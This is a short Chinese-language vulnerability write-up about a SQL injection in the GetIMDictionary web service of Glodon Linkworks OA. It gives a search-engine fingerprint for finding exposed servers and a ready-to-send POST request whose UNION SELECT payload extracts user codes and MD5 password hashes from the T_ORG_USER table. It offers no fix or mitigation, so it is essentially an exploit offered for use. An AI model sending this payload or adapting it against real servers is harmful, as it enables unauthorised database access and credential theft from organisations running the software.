

# 广联达 Linkworks GetIMDictionary SQL注入漏洞

## 漏洞描述

广联达 Linkworks办公OA GetIMDictionary接口存在SQL注入漏洞，发送请求包后可以获取数据库中的敏感信息

## 漏洞影响

<a-checkbox checked>广联达 Linkworks</a-checkbox></br>

## 网络测绘

<a-checkbox checked>web.body="/Services/Identification/"</a-checkbox></br>

## 漏洞复现

登陆页面


验证POC

```php
POST /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded

key=1' UNION ALL SELECT top 1 concat(F_CODE,':',F_PWD_MD5) from T_ORG_USER --
```

